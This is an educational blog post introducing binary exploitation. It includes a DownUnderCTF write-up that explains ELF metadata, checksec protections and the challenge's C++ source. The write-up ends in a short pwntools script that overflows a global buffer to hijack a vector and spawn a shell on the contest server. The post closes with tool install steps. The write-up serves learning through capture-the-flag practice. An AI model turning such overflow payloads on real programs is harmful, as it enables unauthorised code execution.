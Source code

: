 ```yaml
---
title: Pwnology
time: 2024-07-11 12:00:00
categories: [Infosec, Pwnology, Research]
tags: [Pwnology]
image: /assets/posts/Pwnology/0.png
---
```

`Pwnology` is a subject which deals with binary exploitation and exploit development ( and yes, I made that up LOL). In this blog, we’ll be going on a journey of Mastering Pwn. It is one of the most difficult domains of the information security landscape and there aren’t much free resources that one can take use of. Pretty difficult subject to get started into. Therefore, I have made it my mission to make it easy for fellow security enthusiasts to get started in Pwn. There’ll also be bits about Reverse Engineering as well. 

Look, I’m not much of a expert in this area, idea is to document the whole process towards Pwn mastery. Have fun.

```bash
Author: AbuCTF
```

## Resources

[**Nightmare**](https://guyinatuxedo.github.io/)

[**PWN101**](https://tryhackme.com/r/room/pwn101)

[**Intro to Binary Exploitation (Pwn) - Practical Buffer Overflow Challenges (for beginners)**](https://youtube.com/playlist?list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94&si=Bq7aOzKf2QaaMAE-)

[**Binary Exploitation PWN101**](https://youtube.com/playlist?list=PLchBW5mYosh_F38onTyuhMTt2WGfY-yr7&si=6Oo36wuWjBpizLah)

[**pwn.college**](https://pwn.college/dojos)

[**Binary Exploitation / Memory Corruption by LiveOverflow**](https://youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&si=u676IXySzhdKgqR0)

[**Dr Josh Stroschein - The Cyber Yeti**](https://www.youtube.com/@jstrosch/playlists)

[**Stack - Binary Exploitation**](https://ir0nstone.gitbook.io/notes/types/stack)

[**Overview - CTF Handbook**](https://ctf101.org/binary-exploitation/overview/)

[**How to Learn Binary Exploitation Roadmap**](https://www.hoppersroppers.org/roadmap/training/pwning.html)

[**ROP Emporium**](https://ropemporium.com/)

[**Exploit Education**](https://exploit.education/)

[**How2Heap**](https://github.com/shellphish/how2heap)

[**GuidedHacking**](https://guidedhacking.com/)

[**Pwnables**](https://pwnable.tw/challenge)

[**Deusx64**](https://deusx64.ai/)

[**Roppers Academy**](https://roppers.org/collections)

[**Azeria Labs**](https://azeria-labs.com/writing-arm-assembly-part-1)

[**Reversing Challenges**](https://challenges.re/)

[**Begin RE**](https://www.begin.re/)

[**CrackMes**](https://crackmes.one/)

## Intro

Well, I recently attended the `DownUnderCTF`, and solved a Pwn challenge over there. Hyped. I think showing how I solved the challenge gives a solid introduction into the subject, we’ll be going over file formats, ELF inspection and protection using `checksec`. Finally the challenge is about a slightly tweaked form of Buffer Overflow, like the name suggests, Buffer Overflows occur when the user overflows the data-structure underneath the program in order to inject code or gain other privileges like access to restricted information within the program. That itself is a pretty deep subject as it has a steep learning curve and lot of sub-types.

### **VectorOverflow**

**Description**: 

Please overflow into the vector and control it!

**Author**: joseph

```
nc 2024.ductf.dev 30013
```

**Given**: `vector_overflow` `vector_overflow.cpp`

 As `pwn’s` ultimate noob, I’m ~~hyped~~ nervous af right now.

<img src="/assets/posts/DownUnderCTF/17.png" alt="p4" width="70%"/>

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ file vector_overflow
vector_overflow: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
BuildID[sha1]=4a0b824c662ee47b5cd3e73176c0092f1fcf714b, 
for GNU/Linux 3.2.0, not stripped
```

Let’s understand, what all this means. 

1. **ELF 64-bit LSB executable, x86-64**: This indicates that the file is an Executable and Linkable Format (ELF) file, which is a standard file format for executables, object code, shared libraries, and core dumps in Unix-like operating systems. "64-bit" specifies that it is a 64-bit executable, and "LSB" (Least Significant Byte first) indicates the byte order (also known as little-endian). "x86-64" specifies the architecture, meaning it is designed for 64-bit Intel and AMD processors.
2. **version 1 (SYSV)**: This refers to the ELF version and the System V ABI (Application Binary Interface) standard, which is a specification that defines a binary interface for application programs on UNIX systems.
3. **dynamically linked**: This indicates that the executable is dynamically linked, meaning it relies on shared libraries (e.g., libc.so) that are loaded into memory at runtime rather than being statically linked (included in the executable itself).
4. **interpreter /lib64/ld-linux-x86-64.so.2**: This specifies the dynamic linker/loader that will be used to load the shared libraries required by the executable. The specified interpreter is `/lib64/ld-linux-x86-64.so.2`, which is the standard dynamic linker for 64-bit Linux systems.
5. **BuildID[sha1]=4a0b824c662ee47b5cd3e73176c0092f1fcf714b**: This is a unique identifier for the binary, generated using the SHA-1 hashing algorithm. It can be used for debugging purposes or to verify the integrity of the executable.
6. **for GNU/Linux 3.2.0**: This indicates the minimum version of the Linux kernel that is required to run the executable. In this case, the executable requires at least version 3.2.0 of the Linux kernel.
7. **not stripped**: This means that the debugging symbols have not been removed from the executable. Debugging symbols provide additional information that can be useful for debugging the program, such as function names, variable names, and line numbers.

In summary, `vector_overflow` is a 64-bit ELF executable for the x86-64 architecture, dynamically linked with shared libraries, designed to run on Linux kernel version 3.2.0 or higher, and contains debugging symbols.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ checksec --file=vector_overflow
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified     Fortifiable      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   121 Symbols       No    0             1                vector_overflow
```

Source: `Sven Vermeulen` @ 15 July 2011

![18](/assets/posts/DownUnderCTF/18.png)

It even comes with pretty colors (the "`No RELRO`" is red whereas "`Full RELRO`" is green). But beyond interpreting those colors (which should be obvious for the non-colorblind), what does that all mean? Well, let me try to explain them in one-paragraph entries (yes, I like such challenges ;-) Note that, if a protection is not found, then it probably means that the application was not built with this protection.

**`RELRO`** stands for **`Relocation Read-Only`**, meaning that the headers in your binary, which need to be writable during startup of the application (to allow the dynamic linker to load and link stuff like shared libraries) are marked as read-only when the linker is done doing its magic (but before the application itself is launched). The difference between **Partial RELRO** and **Full RELRO** is that the `Global Offset Table` (and Procedure Linkage Table) which act as kind-of process-specific lookup tables for symbols (names that need to point to locations elsewhere in the application or even in loaded shared libraries) are marked read-only too in the **Full RELRO**. Downside of this is that lazy binding (only resolving those symbols the first time you hit them, making applications start a bit faster) is not possible anymore.

A **`Canary`** is a certain value put on the stack (memory where function local variables are also stored) and validated before that function is left again. Leaving a function means that the "previous" address (i.e. the location in the application right before the function was called) is retrieved from this stack and jumped to (well, the part right after that address - we do not want an endless loop do we?). If the **canary** value is not correct, then the stack might have been overwritten / corrupted (for instance by writing more stuff in the local variable than allowed - called *buffer overflow*) so the application is immediately stopped.

The abbreviation **`NX`** stands for non-execute or non-executable segment. It means that the application, when loaded in memory, does not allow any of its segments to be both writable and executable. The idea here is that writable memory should never be executed (as it can be manipulated) and vice versa. Having **NX enabled** would be good.

The last abbreviation is **`PIE`**, meaning *Position Independent Executable*. A **No PIE** application tells the loader which virtual address it should use (and keeps its memory layout quite static). Hence, attacks against this application know up-front how the virtual memory for this application is (partially) organized. Combined with in-kernel `ASLR` (*Address Space Layout Randomization*, which Gentoo's hardened-sources of course support) PIE applications have a more diverge memory organization, making attacks that rely on the memory structure more difficult.

- **`RPATH`**:
    - **No RPATH**: The RPATH is a hard-coded path in the executable that tells the dynamic linker where to look for shared libraries. The absence of RPATH indicates that no such path is hard-coded in the binary.
- **`RUNPATH`**:
    - **No RUNPATH**: Similar to RPATH, RUNPATH is another hard-coded path in the executable for shared libraries. The absence of RUNPATH indicates that no such path is hard-coded in the binary.
- **`Symbols`**:
    - **121 Symbols**: This indicates that the executable contains 121 symbols, which could include function names, variable names, etc. These symbols can be useful for debugging and analysis.

Again, what is **`FORTIFY_SOURCE`**? Well, when using **FORTIFY_SOURCE**, the compiler will try to intelligently read the code it is compiling / building. When it sees a C-library function call against a variable whose size it can deduce (like a fixed-size array - it is more intelligent than this btw) it will replace the call with a `FORTIFY`'ed function call, passing on the maximum size for the variable. If this special function call notices that the variable is being overwritten beyond its boundaries, it forces the application to quit immediately. Note that not all function calls that can be fortified are fortified as that depends on the intelligence of the compiler (and if it is realistic to get the maximum size).
Well, enough theory. Running the checksec command again, we see something different. I mean I ran the command on the same machine this morning. Have a look.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ checksec --file=vector_overflow
[*] '/mnt/c/Documents4/CyberSec/DUCTF/pwn/vector_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anyways, let’s not use `Ghidra` for now. Into `GDB` we go.

```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/DUCTF/pwn]
└─$ gdb ./vector_overflow
GNU gdb (Debian 13.2-1+b1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
```

First thing I did, 

`(gdb) info functions`

Which reveals these guys.

![19](/assets/posts/DownUnderCTF/19.png)

Wait. I already have the source. Why am I disassembling !

Let’s understand this shall we.

**Explanation of the Code**

1. **Global Variables**:
    
    ```cpp
    char buf[16];
    std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};
    ```
    
    - `buf` is a global character array with a size of 16.
    - `v` is a global vector of characters initialized with five 'X' characters.
2. **Functions**:
    - `lose()`:
        
        ```cpp
        void lose() {
            puts("Bye!");
            exit(1);
        }
        ```
        
        - This function prints "Bye!" and then exits the program with a status code of 1.
    - `win()`:
        
        ```cpp
        void win() {
            system("/bin/sh");
            exit(0);
        }
        ```
        
        - This function executes a shell (`/bin/sh`) using the `system` function and then exits the program with a status code of 0.
3. **Main Function**:
    
    ```cpp
    int main() {
        char ductf[6] = "DUCTF";
        char* d = ductf;
    
        std::cin >> buf;
        if(v.size() == 5) {
            for(auto &c : v) {
                if(c != *d++) {
                    lose();
                }
            }
    
            win();
        }
    
        lose();
    }
    ```
    
    - `ductf` is a local character array initialized with the string "DUCTF".
    - `d` is a pointer to the beginning of `ductf`.
    - `std::cin >> buf;`:
        - This line reads input from the user and stores it in `buf`. Note that `buf` can hold up to 15 characters plus a null terminator.
    - `if(v.size() == 5)`:
        - This checks if the size of the vector `v` is 5, which it always is because it's initialized with five 'X' characters.
    - `for(auto &c : v)`:
        - This loop iterates over each character `c` in the vector `v`.
        - `if(c != *d++)`:
            - This checks if the current character `c` in the vector is not equal to the current character pointed to by `d`, and then increments the pointer `d`.
            - If any character in the vector `v` is not equal to the corresponding character in `ductf`, the `lose()` function is called, terminating the program.
    - If all characters in the vector `v` match the characters in `ductf`, the `win()` function is called, which opens a shell and then exits the program.
    - If the size of the vector `v` is not 5, the program calls the `lose()` function and terminates.

![20](/assets/posts/DownUnderCTF/20.png)

Just as a remainder. Probably to myself, 

**Position Independent Executable (PIE)**:

- PIE is a security feature that allows executables to be loaded at random memory addresses each time they are executed. This is a part of `Address Space Layout Randomization (ASLR)`.
- When a binary is compiled as a PIE, it can be loaded at any address in memory, which makes it more difficult for an attacker to predict the locations of specific functions or variables.

You get the point right, basically goal of the buffer overflow exploit would be to overwrite the contents of the vector `v` with "DUCTF" to bypass the checks and execute the `win()` function.
But simply doing things like `AAAAAAAAAAAAAAADUCTF` won’t work. To successfully exploit the buffer overflow and call the `win` function in the provided program, you need to find the memory addresses of the functions and calculate the correct offsets. Now, let’s continue with `GDB`.

![20-5](/assets/posts/DownUnderCTF/20-5.png)

Since, we already know the size of the buffer, we move on to finding the memory address of the buffer , which is `0x4051e0` . Well the, now comes the most important part, scripting the exploit and sending it to the server. 

This is done through `Pwntools`. It’s so useful so many things. Check it out at.

[Pwntools](https://github.com/Gallopsled/pwntools)

```bash
from pwn import *

# p = process('./vector_overflow')
p = remote('2024.ductf.dev', 30013)
p.sendline(b'DUCTF' + b'A' * 11 + p64(0x4051e0) + p64(0x4051e5))
p.interactive()
```

Flag: `DUCTF{y0u_pwn3d_th4t_vect0r!!}`

This is how I felt after the challenge.

<img src="/assets/posts/DownUnderCTF/22.png" alt="p4" width="70%"/>

## Tools

As for the tools, we have a lot of them, to name a few. `Ghidra`, `GDB`, `Pwntools`, `Pwndbg`, `Peda`, `IDA`, `Cutter`, `radare2` and so much more.

I suggest you watch `CryptoCat’s` Practical Buffer Overflow playlist, it’s sensational with the short and condensed input. I’ll also post my learning of the course over here. Also I highly recommend `WSL2`. It’s so fast to boot up and get going.

### Ghidra

<img src="/assets/posts/Pwnology/1.png" alt="p4" width="30%"/>

- Ghidra requires Java to run. Make sure you have JDK 11 or later installed.
- You can check if Java is installed by running:
    
    ```bash
    java -version
    ```
    
- If not installed, you can install OpenJDK 11 (or later) using:
    
    ```bash
    sudo apt-get install openjdk-11-jdk
    ```
    

`Ghidra` is a powerful software reverse engineering suite developed by the NSA. It's open-source and widely used for analyzing binaries to understand their functionality, find vulnerabilities, and more. 

```bash
sudo apt-get install ghidra
```

### GDB

<img src="/assets/posts/Pwnology/2.png" alt="p4" width="40%"/>


`GDB` stands for the “Gnu DeBugger.” This is a powerful source-level debugging package that **lets you see what is going on inside your program**. You can step through the code, set breakpoints, examine and change variables, and so on.

```bash
sudo apt-get install gdb
```

There are also popular extensions of it that are really useful, `pwndbg` and `peda` . I would suggest both on Ubuntu, cause pwndbg has some compatibility with Kali, well I do **pwndbg** on Ubuntu and **peda** on Kali. 

`PwnDBG`

```bash
sudo apt update
sudo apt install -y gdb python3-pip git
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
```

Setting-up alias to use extensions as it is.

```bash
nano ~/.bashrc
alias gdb-pwndbg='gdb -ex "source <path>/pwndbg/gdbinit.py"'
source ~/.bashrc
OR
sudo nano /root/.gdbinit
alias gdb-pwndbg='gdb -ex "source <path>/pwndbg/gdbinit.py"'
```

Now, you can use your extension by typing `gdb-pwndbg` .

`GDB-Peda`

```bash
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

To create an alias to use these extensions separately.

```bash
nano ~/.bashrc
alias gdb-peda='gdb -ex "source ~/peda/peda.py"'
source ~/.bashrc
```

Now you’re good to go. Go ahead and play around with these tools.

[GDB Command Reference - Index page](https://visualgdb.com/gdbreference/commands/)

### Pwntools

<img src="/assets/posts/Pwnology/3.png" alt="p4" width="50%"/>

`Pwntools` is a powerful and user-friendly Python library designed for rapid exploit development. It provides a suite of utilities that simplifies the process of binary exploitation, allowing you to focus on crafting exploits rather than dealing with the underlying complexities.

```bash
pip3 install pwntools
```

But, if you’re on Ubuntu, use a virtual environment or `Conda`. 

## Assembly

From now on, I’ll be fully referencing the `GuyInATuxedo`. This is just to make everything in one space. Of course, full credits to him, it’s just that I want to self-learn from one place.

[**Nightmare**](https://guyinatuxedo.github.io/index.html)

![Continue](/assets/posts/PrivEscalation/continue.jpg)